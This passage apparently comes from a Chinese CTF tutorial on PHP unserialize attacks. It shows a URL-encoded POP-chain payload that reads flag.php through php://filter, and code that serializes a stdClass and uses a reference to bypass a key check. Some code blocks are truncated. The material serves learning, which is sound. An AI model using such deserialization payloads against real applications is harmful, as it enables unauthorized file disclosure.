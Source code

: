 ```
// O%3A4%3A%22Show%22%3A2%3A%7Bs%3A12%3A%22%00Show%00source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A12%3A%22%00Show%00source%22%3BN%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A52%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
?>

```

### 3. 内置标准类的反序列化

对于所有解释性语言，都会有自己的内置类，有些题目会考察这些特性，题图如下。

```
c = $flag;
 
foreach($b as $key => $value)
{ if($key==='c'){continue;}
  echo $value;}
?>

```

上面的题目中没有对象，即使执行`unserialize`函数也没有任何作用，这种情况下就需要用到内置类，php 内置类很多，每个版本不尽相同，可以用`get_declared_classes`打印出所有内置类。

```
$classes = get_declared_classes();
var_dump($classes);
/*
array(137) {
  [0]=string(8) "stdClass"
  [1]=string(9) "Exception"
  [2]=string(14) "ErrorException"
  [3]=string(5) "Error"
  ......
}
*/

```

一般情况下，使用`stdClass`就可以了。`stdClass` 是 PHP 中的空类，可以将其他类型转换为对象。需要注意的是，**`stdClass` 不是对象的基类**。剩下的就只需要运用引用绕过键名称判断即可。`payload`生成页面如下。

```
c = 'aa';
// 运用引用绕过键名称判断
$a->b = &$a->c;
$a=serialize($a);
echo urlencode($a);
// O%3A8%3A%22stdClass%22%3A2%3A%7Bs%3A1%3A%22c%22%3Bs%3A2%3A%22aa%22%3Bs%3A1%3A%22b%22%3BR%3A2%3B%7D
?>

```
